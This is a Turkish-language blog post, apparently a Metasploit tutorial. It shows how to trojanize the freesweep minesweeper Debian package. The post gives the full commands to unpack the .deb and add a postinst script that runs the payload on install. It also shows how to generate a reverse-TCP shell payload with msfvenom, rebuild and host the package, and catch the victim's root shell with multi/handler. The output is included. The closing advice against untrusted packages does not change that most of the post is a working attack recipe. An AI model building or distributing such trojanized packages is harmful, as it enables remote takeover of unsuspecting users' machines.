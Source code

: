 ```yaml
---
draft: false

title:  'MSF Binary Linux Trojan'
date: '2017-05-20T13:12:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için\_.exe\_uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda,\_.deb\_uzantılı bir dosya oluşturacağız." 
 
url:  /tr/msf-binary-linux-trojan/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için `.exe` uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda, `.deb` uzantılı bir dosya oluşturacağız.



Ubuntu işletim sistemini hedef alan bu dosyanın oluşturulması ilk olarak biraz karışık gelebilir ancak adımları teker teker inceleyerek devam ederseniz kavramak daha kolay olacaktır.



Öncelikle, içine payload yerleştireceğimiz bir programa ihtiyacımız var. Örnek olarak “Mine Sweeper” programını kullanalım.



## Paketi indirelim



Paketi `--download-only` parametresiyle indirdiğimizde, işletim sistemimize kurulmayacaktır. Daha sonra indirdiğimiz paketi üzerinde çalışmak üzere oluşturacağımız `/tmp/evil` klasörüne taşıyacağız.


```bash
root@kali:~# apt-get --download-only install freesweep
Reading package lists... Done
Building dependency tree
Reading state information... Done
...snip...
root@kali:~# mkdir /tmp/evil
root@kali:~# mv /var/cache/apt/archives/freesweep_0.90-1_i386.deb /tmp/evil
root@kali:~# cd /tmp/evil/
root@kali:/tmp/evil#
```



Artık `/tmp/evil` klasörünün içerisinde `freesweep_0.90-1_i386.deb` isimli bir Debian paketimiz var. İndirdiğiniz .deb uzantılı dosyanın ismi ve sürüm numarası farklı olabilir. İsmini `ls` komutuyla kontrol ederek örneklerdeki komutlara o şekilde uygulamalısınız.



## Paketi Açalım



Şimdi bu `.deb` uzantılı paketi, sıkıştırılmış bir dosyayı açmaya benzer şekilde açmamız gerekiyor. Bu paketi aşağıdaki komutla `/tmp/evil` klasörü içinde `work` klasörüne çıkartıyoruz. Ardından, bizim ilave edeceğimiz özelliklerin bulunacağı `DEBIAN` isimli bir klasörü `/tmp/evil/work` klasörü altına oluşturuyoruz.


```bash
root@kali:/tmp/evil# dpkg -x freesweep_0.90-1_i386.deb work
root@kali:/tmp/evil# mkdir work/DEBIAN
```



## control Dosyası oluşturalım



Debian klasörünün içerisinde `control` isimli bir dosya oluşturup içerisine aşağıdaki Metni yapıştırıp kaydediyoruz. Dosya içeriği aşağıdaki gibi `cat control` komutuyla kontrol ediyoruz.



**control** dosyası içeriği


```bash
Package: freesweep
Version: 0.90-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers **(**ubuntu-motu@lists.ubuntu.com**)**
Description: a text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works **in **any visual text display - **in **Linux console, **in **an xterm, and **in
 **most text-based terminals currently **in **use.
```



## postinst dosyası oluşturalım



Kurulum sonrası çalışması için ayrıca bir bash script dosyasına daha ihtiyacımız var. Yine yukarıdaki gibi `DEBIAN` klasörü içine `postinst` isimli bir dosya oluşturuyoruz. İçerisine aşağıdaki kod satırlarını yapıştırıyoruz.



**postinst** dosya içeriği


```bash
#!/bin/sh

sudo chmod 2755 /usr/games/freesweep_scores **&amp;&amp;** /usr/games/freesweep_scores &amp; /usr/games/freesweep &amp;
```



## Payload Oluşturalım



Şimdi içerisinde zararlı kodların olduğu dosyayı oluşturabiliriz. Bunun için aşağıdaki komutu kullanarak `linux/x86/shell/reverse_tcp` payload modülünü kullanacağız. Komut içerisinde `LHOST` ve `LPORT` olarak verdiğimiz değişkenleri kendiniz belirleyebilirsiniz.


```bash
root@kali:~# msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST**=**192.168.1.101 LPORT**=**443 -b "\x00" -f elf -o /tmp/evil/work/usr/games/freesweep_scores
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 98 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 98
Payload size: 98 bytes
Saved as: /tmp/evil/work/usr/games/freesweep_scores
```



## Yeniden paketleme



Artık, `postinst` dosyamızı çalıştırılabilir hale getirip `.deb` paketini derleyebiliriz. Komut sonucunda oluşturulacak `work.deb` paketinin ismini `freesweep.deb` olarak değiştirip Apache Server klasörüne (`/var/www` veya `/var/www/html`) yükleyebiliriz. Artık dosyamız Web sunucuda indirilebilir durumdadır.


```bash
root@kali:/tmp/evil/work/DEBIAN# chmod 755 postinst
root@kali:/tmp/evil/work/DEBIAN# dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `freesweep' in `/tmp/evil/work.deb'.
root@kali:/tmp/evil# mv work.deb freesweep.deb
root@kali:/tmp/evil# cp freesweep.deb /var/www/
```



## Dinleyici Handler Oluşturma



Şimdi, bir tıklama veya çalıştırma ile gelecek bağlantı isteklerini dinlemek için dinleyici oluşturalım. Burada komuta vereceğimiz `LHOST` ve `LPORT` değerleri, payload oluştururken girilen değerler ile aynı olmalıdır.


```bash
root@kali:~# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST 192.168.1.101; set LPORT 443; run; exit -y"
PAYLOAD **=&gt;** linux/x86/shell/reverse_tcp
LHOST **=&gt;** 192.168.1.101
LPORT **=&gt;** 443
**[*********]** Started reverse handler on 192.168.1.101:443
**[*********]** Starting the payload handler...
```



## Sonuç



Herhangi bir kullanıcı, bu hazırladığımız `freesweep.deb` paketini indirip çalıştırdığında dinleme yapan `exploit/multi/handler` modülümüz hedef bilgisayarda oturum açacaktır.


```bash
ubuntu@ubuntu:~$ wget <a href="http://192.168.1.101/freesweep.deb">http://192.168.1.101/freesweep.deb</a>
ubuntu@ubuntu:~$ sudo dpkg -i freesweep.deb

**[*********]** Sending stage **(**36 bytes**)**
**[*********]** Command shell session 1 opened **(**192.168.1.101:443 -&gt; 192.168.1.175:1129**)**

ifconfig
eth1 Link encap:Ethernet HWaddr 00:0C:29:C2:E7:E6
inet addr:192.168.1.175 Bcast:192.168.1.255 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:49 errors:0 dropped:0 overruns:0 frame:0
TX packets:51 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:43230 **(**42.2 KiB**)** TX bytes:4603 **(**4.4 KiB**)**
Interrupt:17 Base address:0x1400
...snip...

hostname
ubuntu
id
uid**=**0**(**root**)** gid**=**0**(**root**)** groups**=**0**(**root**)**
```



## Tavsiye



Görüldüğü gibi zararlı yazılımlar sadece Windows’a özel değildir. Linux kullanıcılarının da tıkla ve çalıştır programlara dikkatle yaklaşması gerekmektedir. Güvenilir olmayan kaynaklardan paket yüklememenizi tavsiye ediyoruz.
